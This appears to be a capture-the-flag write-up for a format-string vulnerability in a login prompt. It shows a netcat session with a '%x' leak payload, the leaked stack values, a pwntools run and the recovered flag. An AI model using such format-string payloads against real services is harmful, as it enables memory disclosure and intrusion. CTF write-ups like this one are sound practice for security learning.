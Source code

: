 # Running on netcat
Let's double check the memory address first
```
$ nc challenges.csdc20t.ctf.sg 10012 
8888888888 888                  888     888                  888 888
888        888                  888     888                  888 888
888        888                  888     888                  888 888
8888888    888  8888b.   .d88b. Y88b   d88P 8888b.  888  888 888 888888
888        888     "88b d88P"88b Y88b d88P     "88b 888  888 888 888
888        888 .d888888 888  888  Y88o88P  .d888888 888  888 888 888
888        888 888  888 Y88b 888   Y888P   888  888 Y88b 888 888 Y88b.
888        888 "Y888888  "Y88888    Y8P    "Y888888  "Y88888 888  "Y888
                             888
                        Y8b d88P
                         "Y88P"
========================================================================
                                USER LOGIN
========================================================================
username => AAAA%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--
Enter password for AAAA30740070--6b335350--70543172--77733540--64610064--6e696d--41414141--2d2d7825--2d2d7825--2d2d7825--2d2d7825--2d2d7825--2d2d7825-- => 
```
Ok now it starts from the 7th byte

Since I want to try using pwntools to do this, let's code!
Check and run main.py. Take note that the flag was not in the original memory address, so just shift the address to see if it fits? Idk I got lucky (I just +16).

```
$ python main.py
[+] Opening connection to challenges.csdc20t.ctf.sg on port 10012: Done
8888888888 888                  888     888                  888 888
888        888                  888     888                  888 888
888        888                  888     888                  888 888
8888888    888  8888b.   .d88b. Y88b   d88P 8888b.  888  888 888 888888
888        888     "88b d88P"88b Y88b d88P     "88b 888  888 888 888
888        888 .d888888 888  888  Y88o88P  .d888888 888  888 888 888
888        888 888  888 Y88b 888   Y888P   888  888 Y88b 888 888 Y88b.
888        888 "Y888888  "Y88888    Y8P    "Y888888  "Y88888 888  "Y888
                             888
                        Y8b d88P
                         "Y88P"
========================================================================
                                USER LOGIN
========================================================================
username =>
[*] Switching to interactive mode
 Enter password for \x93\x8a\x04\xa3\x8a\x04|0x30740070|0x6b335350|0x70543172|0x77733540|0x64610064|0x6e696d|sword for |CTFSG{f0rm4tt3d_d4t4_l34k4g3} => $  
```

# Flag
`CTFSG{f0rm4tt3d_d4t4_l34k4g3}`

# Others 
Pwning is possible I heard, idk haven't tried
